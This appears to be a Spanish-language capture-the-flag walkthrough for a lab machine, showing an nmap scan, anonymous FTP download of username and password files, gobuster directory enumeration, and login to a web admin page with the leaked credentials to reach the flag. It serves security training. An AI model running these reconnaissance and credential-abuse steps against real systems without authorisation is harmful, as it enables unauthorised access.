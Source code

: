 1. **Escaneamos los puertos más comunes usando scripts predeterminados y determinamos los servicios y versiones que se están ejecutando en los puertos abiertos.**
```bash
nmap -sV -sC [target ip]
```
--> port 21/tcp - open - ftp     
	ftp-anon: Anonymous FTP login allowed -->
		allowed.userlist / allowed.userlist.passwd

--> port 80/tcp - open- http


2. **Vemos que está el `ftp` abierto y podemos entrar como Anonymous sin contraseña. Entramos y obtenemos los archivos "allowed.userlist" y "allowed.userlist.passwd" y nos salimos del `ftp`**
```bash
ftp [target ip]
	Connected to [target ip]
	Name ([target ip]:kali): Anonymous
	Login successful.
ftp> ls
	allowed.userlist / allowed.userlist.passwd
ftp> get allowed.userlist
	Transfer completed
ftp> get allowed.userlist.passwd
	Transfer completed
ftp> exit
```


3. **Como también está abierto el puerto 80 (web), usamos `gobuster` para listar los directorios (`dir`) que sean `html` o `php` (`-x php, html`) de nuestra máquina objetivo usando una wordlist.**
```bash
gobuster dir -u http://[target ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php, html
	/assets --> http://[target ip]/assets/
	/css --> http://[target ip]/css/
	/js --> http://[target ip]/js/
	*/logout.php --> http://[target ip]/login.php/
	/config.php
	/fonts --> http://[target ip]/fonts/
	/dashboard --> http://[target ip]/dashboard/
```
--> Probamos estas URLs en nuestro navegador y comprobamos que en **"http://[target ip]/login.php/"** , podemos ver una página con un inicio de sesión.


4. **Abrimos los archivos que obtuvimos del servidor `ftp` y vemos que venían usuarios y contraseñas. Los probamos en la página de inicio de sesión.**
```bash
aron - root
pwnmeow - Supersecretpassword1
egotisticalsw - @BaASD&9032123sADS
admin - rKXM59ESxesUFHAd
```
--> Conseguimos entrar con admin y su contraseña y nos movemos dentro de la web hasta encontrar la flag.
--> **MACHINE PWNED!**

